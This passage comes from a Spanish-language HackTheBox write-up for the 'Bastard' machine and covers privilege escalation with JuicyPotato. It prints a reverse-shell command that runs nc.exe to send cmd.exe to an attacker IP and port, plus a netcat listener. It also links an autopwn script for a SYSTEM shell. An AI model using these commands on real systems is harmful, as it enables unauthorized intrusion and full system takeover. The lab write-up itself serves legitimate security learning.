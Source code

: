 * `-a`:
  Y como argumentos le decimos que nos genere una nueva **Reverse Shell** pero hacia otro puerto:

  ```powershell
  -a "/c c:\inetpub\drupal-7.54\nc.exe 10.10.14.8 4434 -e cmd.exe"
  ```

Listos, tenemos todo, ahora si generemos nuestra línea:

```powershell
.\jp.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c c:\inetpub\drupal-7.54\nc.exe 10.10.14.8 4434 -e cmd.exe"
```

Antes de ejecutarlo, nos ponemos en escucha por el puerto `4434`:

```bash
❱ nc -lvp 4434
```

Yyyyyyyyyyyyyy ejecutaaaaaamooooooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_jpEXE_ntsystemRevSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

SI SEEEEEEEÑOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOORA, estamos dentro de la máquina como el usuario `nt authority\system` después de haber ejecutado un proceso (como ese usuario (por el `CLSID`)) que generaba una Reverse Shell. Lindo lindo.

Y pues ya somos amos y señoras del sistema, veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

Peeeeeeeerrrrrfectoooo. Como ítem final nos generamos un `autopwn` el cual nos brindara una Shell directamente como el usuario **NT authority\system** en el sistema, lo único que necesitamos es tener en la misma ruta del script tanto el binario `nc.exe` como el binario `JuicyPotato.exe`.

***(Claramente se puede mediante el `MS15-051.exe`, pero creo que puede ser un poquititititico complicado, ya que cuando lanzamos la revshell el programa se queda en escucha infinidad de tiempo. Tendríamos que controlar eso.)***

La ejecución del script sería sencilla:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_scriptPY_autopwn_DONE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y rápidamente tendríamos una Shell (:

> [autopwn_bastard.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/bastard/autopwn_bastard.py)

Y hemos terminao'

...

Linda máquina, el tema de **Drupalgeddon2** ya lo habíamos trabajado así que apenas lo vi pensé en esa vuln. El privesc me gusto bastante, primero porque lo hicimos de dos formas y segundo por el tema del **kernel**, muy lindo todo.

Y bueno, nos vamos, se cuidan y nos leeremos despues, como siempre a rooooooooooooooomper toooooodo!!!